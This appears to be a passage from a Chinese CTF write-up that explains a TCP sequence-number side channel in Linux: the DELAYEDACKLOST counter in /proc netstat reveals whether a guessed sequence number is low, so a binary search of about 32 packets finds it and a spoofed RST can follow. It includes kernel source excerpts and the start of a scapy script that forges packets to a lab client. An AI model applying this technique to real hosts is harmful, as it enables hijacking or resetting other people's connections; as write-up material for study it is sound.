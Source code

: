 顺着出题人的思路，我们找到了几个paper，还找到了一次看雪论坛的演讲：

1. https://www.microsoft.com/en-us/research/wp-content/uploads/2012/10/ccs12-qian.pdf
2. https://web.eecs.umich.edu/~zmao/Papers/oakland12_TCP_sequence_number_inference.pdf
3. https://bbs.pediy.com/thread-245982.htm#:~:text=第二个攻击变种

根据上面的资料，我们继续往下跟刚才的linux中的`tcp_validate_incoming`，看到如果seq检查不通过的话进到的分支：

```cpp
if (!th->rst) {
    if (th->syn)
        goto syn_challenge;
    if (!tcp_oow_rate_limited(sock_net(sk), skb, LINUX_MIB_TCPACKSKIPPEDSEQ, &tp->last_oow_ack_time))
        tcp_send_dupack(sk, skb);
} else if (tcp_reset_check(sk, skb)) {
    tcp_reset(sk, skb);
}
```

如果我们发的包不是RST，且不是SYN，如果seq检查不通过，且linux还不至于认为我们在flood它的话，会进到`tcp_send_dupack`，我们进去康康有什么

```cpp
static void tcp_send_dupack(struct sock *sk, const struct sk_buff *skb) {
    struct tcp_sock *tp = tcp_sk(sk);
    if (TCP_SKB_CB(skb)->end_seq != TCP_SKB_CB(skb)->seq &&
        before(TCP_SKB_CB(skb)->seq, tp->rcv_nxt)) {
        NET_INC_STATS(sock_net(sk), LINUX_MIB_DELAYEDACKLOST);
        tcp_enter_quickack_mode(sk, TCP_MAX_QUICKACKS);
        // 省略
    }
    tcp_send_ack(sk);
}
```

这个before的换行位置是真的阴间，我看了半天才发现这玩意在条件判断**里头**  
这里有个很有意思的东西，`NET_INC_STATS(sock_net(sk), LINUX_MIB_DELAYEDACKLOST);`  
就是说如果我们发送的这个数据包的seq比当前想要接收到的seq要小的话，linux会将DELAYEDACKLOST的值增加1。  
这个数值在哪里体现呢？在`/proc/<pid>/net/netstat`里头就有。

{% asset_img netstat.png netstat %}

也就是说我们不仅能知道我们的seq对还是错（这样我们需要遍历整个int32，不至于到天涯海角吧至少80秒是有了），而且还能知道seq大还是小。  
这样我们就能用小学二年级就学过的二分法，最多发32来个包，就能得到在窗口范围内的seq，进而伪造发送给client的RST包。

{% spoiler 参考脚本 %}

```python
from pprint import pprint
from requests import session
from scapy.all import *
import time

ses = session()
# conf.L3socket = L3RawSocket
client = '172.21.0.3'
server = '172.21.0.2'


def build(seq):
    ip = IP(src=server, dst=client)
    tcp = TCP(sport=21587, dport=7775, flags="A", seq=seq)
    pkt = ip / tcp / 'payload'
    return pkt


def read(name):
    return ses.get(f'http://{client}:5000/file', params={'name': name}).text

```